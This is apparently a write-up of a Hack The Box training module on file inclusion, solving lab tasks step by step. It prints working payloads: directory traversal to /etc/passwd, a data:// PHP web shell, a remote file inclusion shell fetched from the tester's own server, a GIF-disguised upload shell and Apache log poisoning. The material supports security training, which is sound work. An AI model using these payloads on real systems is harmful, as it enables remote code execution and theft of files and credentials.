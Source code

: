 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://SERVER_IP:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://SERVER_IP:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>


![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
Flowoing HTB Writeup first we create a basic php shell <code> echo '<code><</code>?php system($_GET["cmd"]); ?>' > shell.php </code> then we start a python server <code>sudo python3 -m http.server LISTENING_PORT </code> back in the web page we can use this url <code>http://SERVER_IP:PORT/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id</code> to pass commands. After going trough directories we can easelly find our flag.

![Screenshot 2024-11-18 220254](https://github.com/user-attachments/assets/1ad366a8-e11a-488e-a876-c72f48485d4a)

<h1><ins>LFI and File Uploads</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE and read the flag at /</h2>
Using image upload first we create web shell file that we will use to upload as image <code>echo 'GIF8<code><</code>?php system($_GET["cmd"]); ?>' > shell.gif</code> after successful upload we can use this URL <code>http://SERVER_IP:PORT/index.php?language=./profile_images/shell.gif&cmd=id</code> to start using comands to find our flag
  
![Screensh5ot 2024-11-18 220254](https://github.com/user-attachments/assets/5f7aeeb2-4375-433c-a5a5-5323f52eee8b)

<h1><ins>Log Poisoning</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd/</h2>
using burpsuite we send intercept address <code>http://SERVER_IP:PORT/index.php?language=/var/log/apache2/access.log</code> and by changing user-agent to <code><code><</code>?php system($_GET['cmd']); ?></code> we can inject commands, we also need to change end of url by adding in this case <code>&cmd=pwd</code>
  
![Screenshot 2024-12-01 202623](https://github.com/user-attachments/assets/c0ea16db-a9f4-4c97-9c78-8f36ced111f6)

<h2>Task:  Try to use a different technique to gain RCE and read the flag at / /</h2>
using burpsuit url encoder we can send command to check the files that are inside directory /

![Screenshot 2024-12-01 214032](https://github.com/user-attachments/assets/6d125a2a-4b77-4059-8193-7c487417b127)

![Screenshot 2024-12-01 214138](https://github.com/user-attachments/assets/a7ff890c-41e2-43a1-be6a-38197963c7d6)

after finding flag file we encode it as url using <code>cat /FlagFileName.txt</code> which give us our flag file contents

![Screenshot 2024-12-01 214322](https://github.com/user-attachments/assets/ef19dddd-00a0-4fd7-9b8c-251fc24d8551)

<h1><ins>Automated Scanning</ins></h1>
<h2>Task: Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt/</h2>
